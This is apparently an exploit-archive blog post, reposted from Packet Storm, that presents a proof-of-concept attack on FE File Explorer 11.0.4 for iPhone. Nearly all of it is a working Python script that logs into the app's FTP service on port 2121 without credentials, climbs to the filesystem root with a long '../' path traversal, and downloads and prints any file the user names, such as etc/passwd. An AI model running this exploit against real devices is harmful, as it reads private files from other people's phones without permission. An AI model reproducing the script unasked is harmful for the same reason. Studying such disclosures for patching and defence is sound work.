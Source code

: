 ```yaml
---
layout: post
title: FE File Explorer 11.0.4
date: 2022-09-07 03:37 +0300
categories: [Exploits, File Inclusion]
tags: [exploits]
---
```









![](../../../assets/img/Exploits/fileexp.png)

There is a local file inclusion vulnerability present in version 11.0.4 of FE File Explorer.

  

```
SHA-256 | 9596719bde6a381ce9f18435b2517e8ecf2d1838ab031974d2c37d361f760254
```

```perl
# Exploit Title: FE File Explorer 11.0.4 Local File inclusion
    # Date: Sep 6, 2022
    # Exploit Author: Chokri Hammedi
    # Vendor Homepage: https://www.skyjos.com/
    # Software Link:
    https://apps.apple.com/us/app/fe-file-explorer-file-manager/id510282524
    # Version: 11.0.4
    # Tested on: iPhone ios 15.6
    
    
    from ftplib import FTP
    import argparse
    
    help = " FE File Explorer Local File inclusion"
    parser = argparse.ArgumentParser(description=help)
    parser.add_argument("--target", help="Target IP", required=True)
    parser.add_argument("--file", help="File To Open eg: etc/passwd")
    
    args = parser.parse_args()
    
    
    ip = args.target
    port = 2121 # Default Port
    files = args.file
    
    
    
    ftpConnection = FTP()
    ftpConnection.connect(host=ip, port=port)
    ftpConnection.login();
    
    def downloadFile():
    
    ftpConnection.cwd('/../../../../../../../../../../../../../../../../')
            ftpConnection.retrbinary(f"RETR {files}", open('data.txt',
    'wb').write)
            ftpConnection.close()
            file = open('data.txt', 'r')
            print (f"[***] The contents of {files}\n")
            print (file.read())
    
    downloadFile()
```

<br>  

>*Source* :   [https://packetstormsecurity.com](https://packetstormsecurity.com)
